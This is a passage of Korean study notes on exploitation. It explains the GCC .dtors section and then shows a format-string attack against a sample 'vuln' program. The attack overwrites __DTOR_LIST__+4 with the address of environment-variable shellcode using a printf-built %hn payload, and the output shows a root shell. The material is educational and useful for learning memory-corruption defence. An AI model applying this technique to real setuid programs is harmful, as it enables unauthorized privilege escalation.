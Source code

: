 ```.dtors``` 섹션이 ```0x080495ac```에 있는 ```__DTOR_LIST__```에서 시작해서 ```0x080495b4```에 있는 ```__DTOR_END__```에서 끝난다는 사실을 알 수 있음.

```0x080495ac```에는 ```0xffffffff```가 들어 있고, ```0x080495b4```에는 ```0x00000000```이 들어 있으며, 그 둘 사이에 있는 주소 ```0x080495b0```에는 cleanup 함수의 주소(```0x080483e8```)가 들어 있음.

<br>

objdump 명령은 ```.dtors``` 섹션의 실제 콘텐츠를 보여줌. 

<br>

```console
objdump -s -j .dtors ./dtors_sample

Contents of section .dtors:
 80495ac ffffffff e8830408 00000000
```

<br>

+ ```80495ac``` : ```.dtors``` 섹션이 위치한 주소

+ ```e8830408``` : 소멸자 속성이 부여된 함수의 주소


<br>
<br>

**중요한 점은 ```.dtors``` 섹션은 쓰기가 가능하다는 것이며 소멸자 속성을 갖는 함수가 있는지의 여부와 관계없이 GNU C 컴파일러로 컴파일된 모든 이진 파일에 이 섹션이 포함돼 있다는 점임.**

따라서 ```0xffffffff``` 다음에 있는 주소를 덮어쓴다면 프로그램이 종료될 때 그 주소에 있는 함수가 호출될 것이며, 덮어써야 할 주소는 ```__DTOR_LIST__ + 4```가 됨.

<br>

예를 들어, vuln 프로그램이 실행 중일 때, dtor의 주소는 ```0x08049690```이고 쉘코드가 들어있는 환경 변수의 주소가 ```0xbffff9ec```라 하자.

<br>

```console
nm ./vuln | grep DTOR

08049694 d __DTOR_END__
08049690 d __DTOR_LIST__


0xbfff - 8 = 49143
0xf9ec - 0xbfff = 14829

./vuln $(printf "\x96\x96\x04\x08\x94\x96\x04\x08")%49143x%4\$hn%14829x%5\$hn

test_val @ 0x08049794 = -72 0xffffffb8

sh-3.2# whoami
root
sh-3.2#
```
